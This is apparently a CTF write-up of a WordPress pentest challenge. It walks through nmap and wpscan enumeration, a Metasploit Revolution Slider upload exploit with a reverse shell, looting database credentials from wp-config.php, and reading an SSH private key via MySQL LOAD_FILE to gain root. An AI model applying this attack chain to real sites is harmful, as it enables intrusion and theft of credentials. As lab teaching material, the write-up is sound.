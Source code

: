 This challenge was in the “Network/Pentest” category. CTFs rarely offer pentesting-oriented challenges, so I found this challenge especially enjoyable.

 The challenge description reads:
 <blockquote>
 I setup my own Wordpress site!
 I love that there are so many plugins. My favorite is Revolution Slider.  Even though it's a little old it doesn't show up on wpscan!
 Please give it about 30 seconds after connecting for everything to setup correctly.
 The flag is in /root/flag.txt
 Difficulty: medium
</blockquote>

The challenge provides an OpenVPN config file to use to access the challenge environment. The following command can be used to connect:
openvpn wordpress.ovpn

**Discovery**

After connecting to the VPN environment, the network interface tap0 is created. First, I found the IP address I was given:
<code>
ifconfig tap0
</code>

This returned the address 172.30.0.14, with a subnet mask of 255.255.255.240. To discover other hosts on this subnet to attack, I started by running the following command to perform a ping sweep:
<code>
nmap -sn 172.30.0.0/28
</code>

![Alt text](/images/wordpress_1.png?raw=true "Subnet ping sweep")

This discovered two hosts other than my own machine: 172.30.0.2 and 172.30.0.3. I ran a basic port scan (top 1000 ports) on each host with the following commands:
<code>
nmap 172.30.0.3
</code>

```
(Output, slightly truncated:)
Nmap scan report for 172.30.0.3
Host is up (0.093s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:2E:94:DE:60 (Unknown)
```

<code>
nmap 172.30.0.2
</code>

```
(Output, slightly truncated:)
Nmap scan report for 172.30.0.2
Host is up (0.096s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:78:6B:17:83 (Unknown)
```


This basic port scan indicated that one host was running an SSH server and web server, and the other was running a MySQL server. After running a basic scan, I like to follow up with a more intense scan that peforms service and OS fingerprinting and scans all TCP ports, which helps avoid missing services running on high or non-standard ports. That scan can be peformed with the following command:

<code>
nmap -A $target_ip -p-
</code>

For the sake of brevity, I won't include the output here. I didn't discover any new services with this command, and the version fingerprinting didn't reveal anything shockingly out-of-date. Lastly, I went ahead and ran a UDP scan (top 1000 ports) on each host in the background. This is time-consuming, so I wanted to push ahead with my main enumeration while the scan ran. I used the following command:
<code>
nmap -sU $target_ip
</code>

**Enumeration**

This challenge is entitled “Wordpress”, so I decided to tackle the machine runnning a web server first (172.30.0.3). Upon visiting the server in a web browser, I was greeted by an unassuming WordPress installation. 

![Alt text](/images/wordpress_2.png?raw=true "WordPress site index")

The challenge made mention of wpscan, which is a handy tool for fingerprinting WordPress versions, installed plugins and their versions, determining existing users, and more. I ran a basic scan with the following command:
<code>
wpscan --url "http://172.30.0.3/"
</code>

After a brief moment, the scan completed. 

![Alt text](/images/wordpress_3.png?raw=true "wpscan output")

The most interesting portion of the output was:

```
[i] Plugin(s) Identified:

[+] revslider
 | Location: http://172.30.0.3/wp-content/plugins/revslider/
 |
 | Detected By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WordPress Slider Revolution Local File Disclosure
 |     Fixed in: 4.1.5
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/7540
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1579
 |      - https://www.exploit-db.com/exploits/34511/
 |      - https://www.exploit-db.com/exploits/36039/
 |      - http://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html
 |      - http://packetstormsecurity.com/files/129761/
 |
 | [!] Title: WordPress Slider Revolution Shell Upload
 |     Fixed in: 3.0.96
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/7954
 |      - https://www.exploit-db.com/exploits/35385/
 |      - https://whatisgon.wordpress.com/2014/11/30/another-revslider-vulnerability/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_revslider_upload_execute
 |
 | The version could not be determined.
```

The challenge made reference to a plugin, and wpscan reports that there are two potential vulnerabilties in this plugin. (Also, the challenge mentioned that the plugin doesn't show up on wpscan, though it clearly does; I'm not sure what that's about. Maybe that was true at the time of the challenge creation and wpscan was updated, or maybe the author was just trolling.) 

**Exploitation**

The Metasploit module listed by wpscan looked promising; to try using that to exploit the plugin, I issued the following commands:

```
service postgresql start
msfconsole
msf > use exploit/unix/webapp/wp_revslider_upload_execute

After checking the module info to determine what options to set, I ran the following commands to attempt exploitation:
msf exploit(unix/webapp/wp_revslider_upload_execute) > set rhost 172.30.0.3
msf exploit(unix/webapp/wp_revslider_upload_execute) > set payload generic/shell_reverse_tcp
msf exploit(unix/webapp/wp_revslider_upload_execute) > set lhost 172.30.0.14
msf exploit(unix/webapp/wp_revslider_upload_execute) > exploit
```
(The options for this module can be seen in the below screenshot):

![Alt text](/images/wordpress_4.png?raw=true "Metasploit module options")

This returned a shell:


```
[*] Started reverse TCP handler on 172.30.0.14:4444 
[+] Our payload is at: /wp-content/plugins/revslider/temp/update_extract/revslider/TeKbgNb.php
[*] Calling payload...
[*] Command shell session 1 opened (172.30.0.14:4444 -> 172.30.0.3:60076) at 2019-03-02 19:43:20 -0500
[+] Deleted TeKbgNb.php
[+] Deleted ../revslider.zip

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I had access as the www-data user, which is generally expected when exploiting a WordPress plugin or other web application. After gaining access to a machine running WordPress, it's a good idea to loot the wp-config file, as it contains a database password that might be re-used elsewhere.

![Alt text](/images/wordpress_5?raw=true "/var/www/ contents")

Upon checking /var/www, in addition to the wp-config file, there's also a non-standard file called note.txt. To view the contents of the file, I ran:
<code>
cat /var/www/note.txt
</code>

<blockquote>
Your ssh key was placed in /backup/id_rsa on the DB server.
</blockquote>

I then grabbed the contents of the wp-config file with:
<code>
cat /var/www/wp-config.php
</code>

The interesting portion of the output is:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', '0NYa6PBH52y86C');

/** MySQL hostname */
define('DB_HOST', '172.30.0.2');
```

So the database username is “wordpress”, the password is “0NYa6PBH52y86C”, and the database host is not localhost, but 172.30.0.2. I had already discovered this host earlier in my enumeration; the only service it appeared to be running was MySQL. To attempt to log in to this database remotely, I ran the following command from my machine and provided the password I looted from the wp-config file:
<code>
mysql -u wordpress -p -h 172.30.0.2
</code>

![Alt text](/images/wordpress_6.png?raw=true "Connecting to the MySQL server")

An interesting feature of MySQL is the ability to load files and read their contents. Since the note.txt file discovered earlier made reference to a file on the DB server at /backup/id_rsa, I tried loading that file with this command:
<code>
SELECT LOAD_FILE("/backup/id_rsa");
</code>

![Alt text](/images/wordpress_7.png?raw=true "File contents returned")

This returned the contents of the file, which were a private SSH key. I then copied this text, saved it to my machine in a file entitled id_rsa (and cleaned up the formatting), and set its permissions:
<code>
chmod 600 id_rsa
</code>

Since the flag is supposed to be located at /root/flag.txt, and the 172.30.0.3 machine is running an SSH server, I tried to connect to it as root using the stolen SSH key:
<code>
ssh -i id_rsa root@172.30.0.3
</code>

![Alt text](/images/wordpress_8.png?raw=true "Connecting via SSH and grabbing the flag")

This allowed me to successfully SSH to the machine as root and view the flag:

```
root@apacheword:~# cat flag.txt
gigem{w0rd_pr3ss_b3st_pr3ss_409186FC8E2A45FE}
```
